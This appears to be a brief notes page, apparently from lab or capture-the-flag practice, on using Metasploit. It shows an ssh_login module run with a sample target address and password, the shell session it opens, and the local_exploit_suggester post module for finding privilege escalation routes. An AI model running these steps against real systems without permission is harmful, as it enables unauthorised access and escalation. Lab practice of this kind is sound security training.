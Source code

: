 ## Metasploit plugins

### How to use an ssh login as a msf session
```
use auxiliary/scanner/ssh/ssh_login
set rhosts 10.10.127.204
set username typhoon
set password 789456123

# show sessions
sessions

msf5 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type         Information                               Connection
  --  ----  ----         -----------                               ----------
  1         shell linux  SSH typhoon:789456123 (10.10.127.204:22)  10.9.179.67:40461 -> 10.10.127.204:22 (10.10.127.204)
                  
# use specific session
set session 1
```

### Use the msf exploit suggestion
```
use post/multi/recon/local_exploit_suggester
exploit
```